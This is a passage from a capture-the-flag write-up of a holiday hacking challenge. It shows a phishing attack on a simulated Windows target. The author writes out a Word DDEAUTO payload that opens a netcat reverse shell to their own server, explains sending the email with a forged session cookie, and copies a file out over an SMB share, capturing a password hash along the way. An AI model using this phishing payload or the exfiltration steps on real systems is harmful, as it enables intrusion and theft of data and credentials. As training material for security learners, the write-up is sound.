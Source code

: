 Reading through Alabaster's email gave two big hints to help with this challenge as well. First, he would open *any* DOCX file that contained the words "gingerbread cookie recipe":

![Email open docx](/images/2018/01/email_open_docx.png)

And secondly, he told the elves that he had installed netcat into his Windows PATH:

![Email nc installed](/images/2018/01/email_nc_path.png)

Now normally with a DDE exploit I would try to launch a post-exploitation agent like Meterpreter or Empire through a download cradle, but since netcat was installed I decided to keep it simple and just execute a dumb reverse shell with nc.exe and the "-e" option.

I opened up a blank Word Document, added the words "gingerbread cookie recipe" then inserted a blank field (Ctrl+F9) and put my DDE payload in:

```
{DDEAUTO c:\\windows\\system32\\cmd.exe "/k nc.exe foobar.ropnop.com 4444 -e cmd.exe" } 
```

I named the document "gingerbread\_cookie\_recipe.docx" and navigated back to Email server. I forged a cookie for "wunorse.openslae@northpolechristmastown.com" and sent an email to Alabaster with the file attached. The POST request looked like this:

![Email payload to Alabaster](/images/2018/01/email_send_payload.png)

After a few minutes, my listener on the VPS caught the shell!

![DDE caught shell](/images/2018/01/dde_caught_shel.png)

Looking in his Documents directory, I saw the file I needed: GreatBookPage7.pdf. Now I just needed to get the file on the server. There's many ways to [transfer files](https://blog.ropnop.com/transferring-files-from-kali-to-windows/) from the Windows command line, but I went with what I think is the easiest: SMB.

I used Impacket's [smbserver.py](https://github.com/CoreSecurity/impacket/blob/master/examples/smbserver.py) on my VPS to set up an open share called HAX:

```
python examples/smbserver.py HAX /root/hax/
```

Then, from my Windows command shell, I used the native `copy` command with a UNC path to copy the file over:

```
copy GreatBookPage7.pdf \\foobar.ropnop.com\HAX\
```

![SMB Copy File](/images/2018/01/smb_copy_file.png)

My server caught the file (and Alabaster's hash!) and I had the page I needed:

![SMB Receive file](/images/2018/01/smb_receive_file-1.png)

## Answer to Question 7
> Like any other complex SCADA systems, the North Pole uses Elf-Machine Interfaces (EMI) to monitor and control critical infrastructure assets. These systems serve many uses, including email access and web browsing. Gain access to the EMI server through the use of a phishing attack with your access to the EWA server. Retrieve The Great Book page from C:\GreatBookPage7.pdf. What does The Great Book page describe?
